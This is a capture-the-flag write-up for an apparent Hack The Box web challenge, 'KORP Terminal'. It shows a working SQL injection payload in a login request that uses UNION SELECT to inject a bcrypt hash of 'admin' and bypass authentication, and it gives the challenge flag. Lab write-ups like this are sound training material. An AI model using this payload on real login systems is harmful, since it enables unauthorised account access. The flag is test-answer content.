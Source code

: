 # KORP Terminal - Very Easy

In this challenge, participants are provided with a website with login page.

![image](https://github.com/ITSEC-ASIA-ID/Competitions/assets/49203884/b6a30831-85e9-4335-8ba8-9b35064661a6)

## Solution

There is a SQL Injection in `username` parameter. After further identification, this is possibility query that used in the code:
```
SELECT password FROM users WHERE username = 'input_username'
```

With this query we can use `union` operator to return the SQL query result with our controlled input.


```
POST / HTTP/1.1
[..snip..]


username='+union+select+'$2a$12$GFiVKhImwWDr86Ix3t88A.StIYrFA39Xtpe4mQSqtAwySYy.8p57O'--+-&password=admin
```

`$2a$12$GFiVKhImwWDr86Ix3t88A.StIYrFA39Xtpe4mQSqtAwySYy.8p57O` is bcrypt result of `admin`

![image](https://github.com/ITSEC-ASIA-ID/Competitions/assets/49203884/c76c0480-eea1-4c1b-9444-dfcf6ebec2cb)



## Flag
HTB{t3rm1n4l_cr4ck1ng_sh3n4nig4n5}
